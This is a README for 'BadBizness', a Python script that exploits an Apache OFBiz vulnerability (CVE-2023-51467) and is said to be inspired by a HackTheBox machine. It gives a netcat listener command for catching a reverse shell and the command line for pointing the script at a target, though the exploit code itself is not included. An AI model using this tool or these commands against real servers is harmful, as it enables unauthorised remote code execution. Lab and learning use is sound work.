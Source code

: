 ![banner](badbiz.png)

# BadBizness
Automatic exploitation script for the Java web framework [OF Biz](https://ofbiz.apache.org/) under CVE-2023-51467. Inspired by the HackTheBox machine [Bizness](https://app.hackthebox.com/machines/582).

## Usage and Example
This script requires the tool [ysoserial](https://github.com/frohoff/ysoserial/releases) and OpenJDK version 11. See usage menu for installation.

Setup a listener to catch the shell with your preferred method. Here is a netcat example:
```
nc -nlvp 1337
```
Execute the script:
```
python3 badbizness.py [path to ysoserial-all.jar] [TARGET BASE URL] [LISTENER IP] [LISTENER PORT]

python3 badbizness.py /home/twopoint/ysoserial-all.jar http://example.com:1337 10.10.10.10. 1337
```
## Disclaimer and Credit
This tool was meant as a way to learn more about Python. I credit [this](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) script for helping me thoroughly.
